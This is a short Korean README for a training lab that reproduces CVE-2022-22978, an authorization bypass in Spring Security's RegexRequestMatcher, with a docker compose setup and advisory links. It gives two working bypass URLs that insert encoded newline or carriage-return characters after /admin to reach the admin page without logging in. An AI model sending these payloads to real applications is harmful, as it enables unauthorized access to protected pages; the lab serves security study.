

# Spring Security RegexRequestMatcher 인증 우회 취약점 (CVE-2022-22978)

화이트햇 스쿨 3기(17반) -  [박성현](https://github.com/sh1220)
</br>

</br>

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.  
Spring Security 버전 5.5.6, 5.6.3 및 그 이하의 지원되지 않는 버전들에서는,  
정규 표현식에 `.`(닷)을 사용하는 `RegexRequestMatcher`를 활용하는 애플리케이션이  
인증 우회(Authorization Bypass) 취약점에 노출될 수 있습니다.

## 참고 자료

- [Tanzu Security Advisory - CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)
- [GitHub - DeEpinGh0st/CVE-2022-22978](https://github.com/DeEpinGh0st/CVE-2022-22978)

## 취약점 환경 구축

아래 명령어를 실행하여 Spring Security 5.6.3을 기반으로 한 웹 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

서버가 정상적으로 기동된 이후,
브라우저에서 <http://your-ip:8080/admin>로 접속합니다:



## 취약점 재현 방법

다음과 같이 요청을 보내면 인증 없이 관리자 페이지에 접근할 수 있습니다:
- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

우회에 성공하면 정상적으로 접근되는 화면이 나타납니다.

